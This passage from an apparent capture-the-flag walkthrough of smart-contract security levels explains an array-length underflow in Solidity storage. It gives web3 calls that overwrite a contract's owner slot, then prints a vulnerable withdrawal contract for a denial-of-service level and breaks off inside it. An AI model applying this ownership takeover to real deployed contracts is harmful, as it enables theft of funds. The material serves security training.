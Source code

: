 Solidity stores array length in a slot and its elements in the hash of the slot, [this](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/) blog explains the storage. If we continue to decrease the array length with it will become `2^256` because of integer underflow. Therefore we can index every slot of the storage. Now we just have to calculate the index of the slot 0 (which holds the owner). By using the `revise` function we can update the data at that slot. Hence we could potentially change the owner of the contract. The first element of the array will be stored at slot (keccak256 of slot where the length of the array is saved). The index of the slot0 would be slot keccak256(1) + (2\*\*256 - keccak256(1)).

> #### Solution:
> - We need to make contact first.
> ```js
> await contract.make_contract();
> ```
> - Then we have to make array length underflow by calling `retract()`.
> ```js
> await contract.retract();
> ```
> - Index of slot 0 is `2**256 - keccak256("0x0000000000000000000000000000000000000000000000000000000000000001")`
> ```js
> index = web3.utils.encodePacked(web3.utils.toBN("0x1".padEnd("67", "0")).sub(web3.utils.toBN(web3.utils.keccak256("0x000000000000000000000000000000000000000000000000000000000000001"))))
> ```
> 
> - Call the `revise` function to update the data.
> ```js
> await contract.revise(index, web3.eth.abi.encodeParameter("address", player));
> ```

<hr>

## 20 Denial
We have to become the partner, and block the owner of the contract from withdrawing the funds.
#### Source:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }
```